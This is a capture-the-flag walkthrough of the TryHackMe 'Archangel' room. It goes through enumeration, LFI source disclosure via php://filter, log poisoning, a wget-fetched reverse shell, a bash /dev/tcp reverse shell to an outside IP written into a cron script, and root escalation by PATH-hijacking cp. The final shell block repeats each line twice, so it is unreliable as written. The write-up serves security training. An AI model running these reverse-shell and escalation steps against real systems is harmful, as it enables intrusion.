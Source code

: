 ```yaml
---
title: Walkthrough - Archangel
published: True
---
```


Boot2root, Web Exploitation, Privilege Escalation, LFI. A well known security solutions company seems to be doing some testing on their live machine. Best time to exploit it.

[https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)

* * *

## Get a shell

- nmap

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster scans

```shell
/pages                (Status: 301) [Size: 314] [--> http://10.10.100.253/pages/]
/images               (Status: 301) [Size: 315] [--> http://10.10.100.253/images/]
/flags                (Status: 301) [Size: 314] [--> http://10.10.100.253/flags/] 
/layout               (Status: 301) [Size: 315] [--> http://10.10.100.253/layout/]
```

**Find a different hostname**

![0xskar](/assets/archangel01.png)

- checking the source code of ``http://10.10.100.253`` we find ``support@mafialive.thm`` we can add this domain to the hosts file  to continue enumeration. After traveling there we find our first flag.

**Find flag 1**

![0xskar](/assets/archangel02.png)

**Look for a page under development**

- ``gobuster dir -u http://mafialive.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 -x php,txt --no-error``
- we find a page but we canty view the code in test.php have to find a way around this.
- ``curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`` using ``php://filter`` allows us to bypass the protection and ``convert.base64-encode/resource=`` lets us encode test.php as base64 lets see what we are working with

**Find flag 2**

```php
<?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

**Get a shell and find the user flag**

- the url must not contain ``../..`` but must contain ``/var/www/html/development_testing``
- so we need to use LFI Log Poisoning...having never attempted this before going to follow [this writeup](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d).
- we can setup php webserver with php reverse shell and get this over to the target machine by poisining the log file with thee user-agent.

- start by poising the logfile with the php payload in the user-agent string

![0xskar](/assets/archangel03.png)

- we get ``cmd=id HTTP/1.1" 200 997 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data) " ``
- now we can wget our reverse shell, then traverse to open up the reverse shell when we have our netcat listener setup.

* * * 

## What is the user flag?

![0xskar](/assets/archangel04.png)

* * * 

## What is the root flag?

- checking the ``/etc/crontab`` can see that we can move to archangel - ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> /opt/helloworld.sh``
- setup listener ``rlwrap nc -lvnp 6670``

![0xskar](/assets/archangel05.png)

- Now that we found user 2 flag we can continue escaliation to root.

- ``find / -perm -u=s -type f 2>/dev/null`` we can see that ``/home/archangel/secret/backup`` has a suid set
- checking out the backup file with ``strings`` we can see it runs ``cp`` but doesnt use a path so we can take advantage of this and leave a cp program in the directory for it to run.

```shell
cat > cp << EOF
cat > cp << EOF
#!/bin/bash
#!/bin/bash
/bin/bash -i
/bin/bash -i
EOF
EOF
chmod +x cp
chmod +x cp
export PATH=/home/archangel/secret:$PATH
export PATH=/home/archangel/secret:$PATH
./backup
./backup
id
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:~/secret# 
```

- ``cat /root/root.txt``

* * * 

